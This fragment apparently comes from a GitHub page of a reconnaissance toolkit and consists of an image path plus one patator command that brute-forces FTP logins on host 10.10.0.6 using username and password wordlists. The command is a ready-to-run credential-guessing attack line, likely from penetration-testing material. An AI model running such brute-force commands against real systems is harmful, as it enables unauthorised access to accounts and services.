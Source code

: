 patator ftp_login host=10.10.0.6 user=FILE0 password=FILE1 0=YAWR-master/brute/usernames-shortlist.txt 1=YAWR-master/brute/passwords/realyBest.txt -x ignore:mesg='Login incorrect.' -x ignore,reset,retry:code=500